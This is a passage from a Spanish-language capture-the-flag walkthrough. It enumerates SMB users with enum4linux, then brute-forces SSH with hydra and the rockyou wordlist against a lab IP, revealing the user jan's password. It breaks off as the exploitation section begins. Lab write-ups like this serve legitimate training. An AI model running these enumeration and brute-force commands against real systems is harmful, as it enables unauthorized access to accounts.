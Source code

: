 Dado que SMB está activo, se utiliza la herramienta `enum4linux` para buscar recursos compartidos y usuarios del sistema.
  ```
  enum4linux -a 10.10.84.9
  ```

<p align="center">
    <img src="Imagenes/81.png" width="1000">
</p>

**Hallazgos**
- Usuarios: `kay` y `jan`

### 22(SSH)

Utilizando la lista de usuarios, se lanza un ataque de **fuerza bruta** contra el servicio SSH para obtener credenciales válidas.

```
hydra -t 4 -l jan  -P /usr/share/wordlists/rockyou.txt ssh://10.10.84.9
```


<p align="center">
    <img src="Imagenes/82.png" width="1000">
</p>

**Credenciales obtenidas:**
- **Usuario:** `jan`
- **Contraseña:** `armando`

---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

Con las credenciales descubiertas con `hydra`  nos conectamos al servicio ssh: 
